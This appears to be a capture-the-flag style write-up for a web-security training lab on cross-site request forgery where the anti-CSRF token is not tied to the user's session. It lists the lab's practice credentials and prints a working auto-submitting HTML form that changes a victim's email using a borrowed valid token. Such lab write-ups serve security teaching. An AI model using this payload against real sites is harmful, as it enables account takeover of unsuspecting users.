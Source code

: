 # CSRF where token is not tied to user session
# Objective
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:\
- `wiener:peter`
- `carlos:montoya`

# Solution
## Analysis
Even though the website have `csrf` token website might not assosiate `csrf` token with adequate user `session`. 

|![](Images/image-6.png)|
|:--:| 
| *Test of change email functionality (user wiener) - CSRF token is preset* |
|![](Images/image-7.png)|
| *Test of change email functionality (user carlos) - CSRF token is preset* |

## Test attack
`csrf` token is not tied to user session.

|![](Images/image-8.png)|
|:--:| 
| *Dropped change email request - user wiener* |
|![](Images/image-9.png)|
| *Change email request with wiener's csrf token* |


## Exploitation
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - Craft POST request with validm, unused `csrf` token, that is not tied to user session
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="POST" action="URL/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="VALID_CSRF">
</form>

<script>
        document.forms[0].submit();
</script>
```

|![](Images/image-10.png)|
|:--:| 
| *Copy the csrf token of valid change email request* |
|![](Images/image-11.png)|
| *Exploit server configuration* |
